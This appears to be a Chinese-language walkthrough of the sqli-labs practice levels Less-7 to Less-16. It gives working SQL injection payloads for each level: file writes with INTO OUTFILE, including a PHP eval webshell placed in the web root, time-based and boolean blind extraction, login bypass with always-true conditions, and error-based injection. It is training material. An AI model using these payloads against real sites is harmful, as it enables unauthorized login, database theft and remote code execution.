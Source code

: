 # 七、答题模式-Background-3 导入导出相关操作的讲解-Less-7~16

### Less-7

源码：<br>
`$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";`

首先我们先正常输入id值，得到正常的输出。再构造语句：
`?id=1')) union select 1,2,3 into outfile 'c:\\wamp\\www\\test000.txt'--+`

这里输出You have an error in your SQL syntax。显示sql出错，但是没有关系，文件已经生成了。

此时，同样可以构造“一句话木马”导入进去。

`?id=1')) union select 1,2,"<?php @eval($_post['a'])?>" into outfile 'c:\\wamp\\www\\test.php'--+`

然后就是菜刀getshell的后续操作了。


### Less-8

这里是 `?id=10' or 1=1--+` 进行注入，查看源码是屏蔽了mysql_error()，无法使用报错型注入，其他payload参考Less-5。


### Less-9

标题为 Blind- Time based- Single Quotes- String《基于时间-单引号》，显然是利用延时注入。

直接一层 `?id=1' or 1=1--+` 得到正常输出

这里开始利用sleep()延时注入。

- 猜测数据库：<br>
`?id=1' and if(ascii(substr(database(),1,1))=115,1,sleep(5))--+`<br>
sql构造为当数据库名第一位字母为ascii(s)=115，if正确则立即返回，不正确则等待5秒钟。<br>
修改substr参数得到第二个字母，以此类推得到数据库名称是security。
- 猜测security数据表：<br>
`if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101,1,sleep(5))--+`<br>
这里猜的第一张数据表的第一个字母为ascii(e)=101，if正确则立即返回，不正确则等待5秒钟。<br>
修改limit参数可得到第二张表，修改substr参数可得到表全名，以此类推得到所有数据表emails,referers,uagents,users。
- 猜测users表的列<br>
`?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),1,1))=105,1,sleep(5))--+`<br>
这里猜得users表的第一列为ascii(i)=105。<br>
以此类推，得到列名是id,username,password。
- 猜测username值
`?id=1' and if(ascii(substr((select username from security.users limit 0,1),1,1))=68,1,sleep(5))--+`<br>
这里得到username第一行的第一位。<br>
以此类推，可得到username/password所有内容。

当然，这里还可以使用benchmark()函数进行注入，这里不进行演示。


### Less-10

标题是《基于时间-双引号》，和Less-9类似，查看源码可知，不管sql对错的前端显示都是一样的，因此延时类注入是适合的，此处只做一个演示。

`?id=1" and if((ascii(substr(user(),1,1))=65),1,sleep(5))--+`<br>
延时5秒，所以用户第一位不是65A。


### Less-11

这里是初次接触POST注入，是一个登陆入口。

首先用hackbar的load url可以提取到需要post的数据。

再第一步就是测试万能密码 `admin' or '1'='1`，密码随意。<br>
构造出来的payload是这样的 `uname=admin' or '1'='1#&passwd=1`<br>

显示是登录成功的，登录账号为admin密码为admin。<br>
通过查看后端代码，构造出的sql是这样的：`@$sql="SELECT username, password FROM users WHERE username='admin'or'1'='1# and password='$passwd' LIMIT 0,1";`

这里利用的是 or 恒成立。


> ps：这里个人再深入一层，加入我不清楚存在admin账号，我就试举例构造 `a' or 1=1--+` ，密码随意<br>
得到的结果是登录账号Dumb登录密码Dumb，显示是登录成功的。<br>
那么我即使不知道账号也能绕过去，并且可以得到前端提示的一个用户。

接着天书的指引，我们用union注入尝试：<br>
`passwd=1&uname=1admin' union select 1,database()--+`

那么前端回显的是database为security。这种叫get注入，是常用的手法，还有其他方法注入，天书在后面的关卡会给示例。


### Less-12

这里Less-12和Less-11类似，只不过在sql语句上多了一弯口。

首先构造单/双引号，在构造双引号后得到提示是 `")` 。

知道这点之后payload就简单了：<br>
`passwd=1&uname=admin")--+` 得admin/admin<br>
`passwd=1&uname=1admin") or 1=1--+`得Dump/Dump


### Less-13

这里我们输入 `admin'` ，会看到报错是对id进行了 `')` 处理。

根据前面的方式绕过，登录成功后是没有回显登录成功的用户名的。只是显示登录结果，那么这里我们就用下布尔类型的盲注了。

猜测数据库的第一位：<br>
`passwd=1&uname=admin') and left(database(),1)>'a'--+`

> 注意这里我们使用的是and，是利用了uname=admin的。

这里猜测后是登录成功的，接下来就可以逐位猜测了，如Less-5。提一个小建议，在逐位猜测的过程可以利用二分法。


### Less-14

这里直接测试<br>
`passwd=1&uname=admin" and left(database(),1)>'a'--+` 

可见是登录成功的，没有登录提示。那么这里利用一下报错注入：<br>
`passwd=1&uname=admin" and extractvalue(1,concat(0x7e,(select version()),0x7e))--+`

这里就提示了：XPATH syntax error: '~5.6.17~'


### Less-15

本关卡没有报错提示，只能猜测注入，可看源码得知id进行了 `'id'` 的处理。

这里我们利用延时注入，猜测数据库名第一位：<br>
`passwd=1&uname=admin' and if(ascii(substr(database(),1,1))=115,1,sleep(5))--+`

正确的时候可以直接登录，不正确的时候延时5秒且登录失败。


### Less-16

本关卡和Less-15的处理是一样的，同样的使用延时注入的方法进行解决。多次猜测或从源码中可知，进行了 `("id")` 的处理。

构造payload：<br>
`passwd=1&uname=1admin") or 1=1--+` 登录成功<br>

**技巧**：注意这里，假如不知道存在的账号，也可以构造or语句。<br>
`passwd=1&uname=1admin")  or if(ascii(substr(database(),1,1))=114,1,sleep(5))--+`<br>
这里账号为1admin，再借用or语句得1或延时注入，均可得到登录成功、数据库名第一位为115s、立即响应或休眠5秒的结果。

> ps：优先级 and > or




